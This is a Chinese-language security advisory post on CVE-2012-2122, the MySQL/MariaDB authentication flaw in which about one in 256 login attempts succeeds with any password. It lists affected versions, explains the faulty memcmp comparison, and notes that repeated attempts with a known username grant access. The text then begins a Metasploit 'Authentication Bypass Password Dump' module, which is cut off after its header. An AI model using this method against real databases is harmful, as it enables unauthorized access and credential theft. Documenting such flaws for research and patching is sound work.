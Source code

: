 title: "MySQL 概率性任意密码(身份认证)登录漏洞(CVE-2012-2122)"
id: 47
date: 2012-07-01 12:16:30
tags: 
- Metasploit
- Mysql
- 任意密码登录
categories: 
- 技术文章
- 最新漏洞
---

###发布时间: 2012-06-11 (GMT+0800)
##漏洞版本:

MySQL &lt; 5.6.6
MySQL &lt; 5.5.24
MySQL &lt; 5.1.63
MariaDB &lt; 5.5.23
MariaDB &lt; 5.3.6
MariaDB &lt; 5.2.12
MariaDB &lt; 5.1.62

##漏洞描述:

CVE ID: CVE-2012-2122

MariaDB是为MySQL提供偶然替代功能的数据库服务器。MySQL是开源数据库。

MariaDB 5.1.62, 5.2.12、5.3.6、5.5.23之前版本和MySQL 5.1.63、5.5.24、5.6.6之前版本在用户验证的处理上存在安全漏洞，可能导致攻击者无需知道正确口令就能登录到MySQL服务器。

用户连接到MariaDB/MySQL后，应用会计算和比较令牌值，由于错误的转换，即使memcmp()返回非零值，也可能出现错误的比较，造成MySQL/MariaDB误认为密码是正确的，因为协议使用的是随机字符串，该Bug发生的几率为1/256。MySQL的版本是否受影响取决于程序的编译方式，很多版本（包括官方提供的二进制文件）并不受此漏洞的影响。

也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库。按照公告说法大约256次就能够蒙对一次。而且漏洞利用工具已经出现。

>参考
http://seclists.org/oss-sec/2012/q2/493

测试方法:

本站提供程序(方法)可能带有攻击性,仅供安全研究与教学之用,风险自负!


```ruby
#####  方法一、

&amp;nbsp;
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
# http://metasploit.com/
##

require 'msf/core'

class Metasploit3 &lt; Msf::Auxiliary

include Msf::Exploit::Remote::MYSQL
include Msf::Auxiliary::Report

include Msf::Auxiliary::Scanner

def initialize
super(
'Name' =&gt; 'MYSQL CVE-2012-2122 Authentication Bypass Password Dump',
'Version' =&gt; '$Revision$',
```